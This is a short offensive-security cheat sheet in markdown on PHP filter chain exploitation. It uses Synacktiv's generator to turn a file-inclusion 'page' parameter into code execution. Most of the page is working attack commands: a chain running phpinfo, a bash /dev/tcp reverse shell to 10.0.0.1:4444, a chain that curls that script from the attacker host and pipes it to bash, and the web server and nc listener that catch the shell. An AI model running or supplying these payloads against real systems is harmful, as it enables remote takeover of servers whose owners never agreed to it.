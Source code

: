 ```yaml
---
title: PHP Filters Chain
description: 
tags:
    - Web
refs:
    - https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html
date: 2023-04-10
draft: false
---
```


## Exploitation

[PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) is available so we can use it.

```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
```

We only have to do is paste the above generated payload to **`/?page=<genrated_chain>`**.

### Reverse Shell

First create a shell script named **"revshell"** in local machine.

```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

Then create a chain using a generator.  
Replace the ip address with your own.

```bash
# `<?= ?>` is a shorthand for `<?php echo ~ ?>`
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.0.0.1/revshell|bash` ?>'
```

We need to start a web server that hosts the shell script, and also start a listener for receiving the reverse connection.

```bash
# terminal 1
sudo python3 -m http.server 80

# terminal 2
nc -lvnp 4444
```

Now access to **`/?page=<generated_chain>`**. We can get a shell.